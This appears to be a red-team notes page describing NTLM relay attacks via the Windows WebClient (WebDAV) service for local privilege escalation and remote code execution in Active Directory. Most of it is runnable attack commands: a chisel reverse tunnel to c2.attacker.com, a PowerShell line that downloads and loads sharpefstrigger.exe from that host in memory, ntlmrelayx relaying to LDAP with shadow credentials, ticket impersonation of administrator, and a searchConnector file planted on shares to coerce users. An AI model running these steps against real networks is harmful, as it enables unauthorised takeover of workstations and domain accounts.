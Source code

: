 ```yaml
---
title: NTLM Relay from WebDAV
---
```


Use a computer where the WebClient service is running as [[notes/ad/ntlm-relay-source]] by coercing NTLM over WebDAV / [[notes/ad/ntlm-relay-from-http|HTTP]].
The WebClient is installed by default only on workstations and the service is stopped.

Coercion over WebDAV works reliably on Windows 10, but seldomly works on Windows 11 for unknown reasons.

# Local Privilege Escalation

Coerce authentication trough [[notes/ad/ntlm-relay-from-print-spooler|Print Spooler]] or [[notes/ad/ntlm-relay-from-efs|PetitPotam]] and [[notes/ad/ntlm-relay-to-ldap|relay to LDAP]] for local [[notes/windows/escalation]].

Windows: Check if the service is running.

~~~ powershell
Get-Service WebClient
~~~

Windows: Trigger the start of the service.
This command fails intentionally.

~~~ bat
start \\1.1.1.1@80\
~~~

Windows: Verify that the service is running now.

~~~ powershell
Get-Service WebClient
~~~

C2: Start [[notes/tools/chisel]] server.

~~~ bash
./chisel server --auth chisel:'passw0rd' --reverse --socks5 --port 80
~~~

C2: Start the NTLM relay server [[notes/ad/ntlm-relay-to-ldap|to LDAP]].
If you control a computer account you can use [[notes/ad/rbcd]] instead of [[notes/ad/shadow-credentials]].

~~~ bash
proxychains impacket-ntlmrelayx --no-raw-server --no-wcf-server --no-smb-server -smb2support --no-dump --no-acl --no-da --no-validate-privs -debug --http-port 8080 --shadow-credentials --shadow-target 'ws01$' --target ldaps://dc01.corp.local
~~~

Windows: Start [[notes/tools/chisel]] client to establish a reverse SOCKS proxy with the attacker and forward 8080/tcp to the C2 server.
See [[notes/pivoting/index]] for alternate tools.

~~~ bat
.\chisel.exe client --auth chisel:passw0rd https://c2.attacker.com R:127.0.0.1:1080:socks 127.0.0.1:8080:127.0.0.1:8080
~~~

Windows: Coerce NTLM authentication over WebDAV to the attacker.

~~~ ps1
$x=(New-Object System.Net.WebClient).DownloadData('https://c2.attacker.com/sharpefstrigger.exe')
$y=[System.Reflection.Assembly]::Load([byte[]]$x)
[SharpEFSTrigger.Program]::Main(@('localhost','localhost@8080/something','EfsRpcEncryptFileSrv'))
~~~

C2: Wait until the incoming NTLM connection is relayed to LDAP and the resulting certificate is shown.
Then use the command that is printed afterwards to authenticate with the certificate and get a TGT for the computer account.

C2: Use the TGT to perform S4U2Self and gain a ST as local admin on the computer.

~~~ bash
export KRB5CCNAME="$PWD/ws01.ccache"
proxychains impacket-getst -impersonate administrator -self -altservice cifs/ws01.corp.local -k -no-pass 'corp.local/ws01$'
~~~

Other tools:

- [DavRelayUp](https://github.com/Dec0ne/DavRelayUp), `KrbRelayUp` successor, only has RBCD implemented

Untested tools:

- [SharpStartWebclient](https://github.com/eversinc33/SharpStartWebclient)
- [EtwStartWebClient.cs](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797)

References:

- [Operator’s Guide to the Meterpreter BOFLoader](http://web.archive.org/web/20230707075341/https://www.trustedsec.com/blog/operators-guide-to-the-meterpreter-bofloader/), exploitation with BOFs only
- [Coercions and relays – The first cred is the deepest with Gabriel Prud'homme](https://www.youtube.com/watch?v=b0lLxLJKaRs&t=60m)
- [NTLMRelay2Self over HTTP](https://github.com/med0x2e/ntlmrelay2self)

# Remote Code Execution

Acquire a [[notes/ad/intranet-zone|intranet-zoned]] hostname.

Find computers where the WebClient service is running.

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec smb 192.168.178.0/24 -d corp.local -u jdoe -p 'passw0rd' -M webdav | grep WEBDAV
    ~~~

If no interesting targets are found write the following file to a public SMB share.
Every user that opens the directory triggers the start of the WebClient on his/her computer.

`./test.rtf.searchconnector-ms`:

~~~ xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
  <iconReference>imageres.dll,-1002</iconReference>
  <description>Microsoft RTF Document</description>
  <isSearchOnlyItem>false</isSearchOnlyItem>
  <includeInStartMenuScope>true</includeInStartMenuScope>
  <templateInfo>
    <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
  </templateInfo>
  <simpleLocation>
    <url>http://hackerpc/test</url>
  </simpleLocation>
</searchConnectorDescription>
~~~

Or automated with [[notes/tools/netexec]] ([source](http://web.archive.org/web/20230426070201/https://mayfly277.github.io/posts/GOADv2-pwning-part13/)).

~~~ bash
netexec smb fs01.corp.local -u jdoe -p 'passw0rd' -M drop-sc -o SHARE=transfer -o FILENAME=test.rtf -o URL=http://hackerpc/test
netexec smb fs01.corp.local -u jdoe -p 'passw0rd' -M drop-sc -o SHARE=transfer -o FILENAME=test.rtf -o CLEANUP=true
~~~

Coerce a WebDAV connection, e.g. trough the [[notes/ad/ntlm-relay-from-print-spooler]], and relay [[notes/ad/ntlm-relay-to-ldap|to LDAP]] like in the LPE scenario.

Untested tools:

- [GetWebDAVStatus](https://github.com/g0ldengunsec/getwebdavstatus)
- [WebclientServiceScanner](https://github.com/hackndo/webclientservicescanner)

References:

- [twitter.com/ShitSecure/status/1757033136829972618](https://twitter.com/ShitSecure/status/1757033136829972618), some EDRs seem to interfere with the attack by blocking authentication of computer accounts
- [Shadow Credentials: Workstation Takeover Edition](http://web.archive.org/web/20240103150213/https://www.fortalicesolutions.com/posts/shadow-credentials-workstation-takeover-edition)
- [Coercing the WebClient service to start](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb#coercing-the-webclient-service-to-start)
- [Lateral movement with WebClient](http://web.archive.org/web/20221122214543/https://pentestlab.blog/2021/10/20/lateral-movement-webclient/)
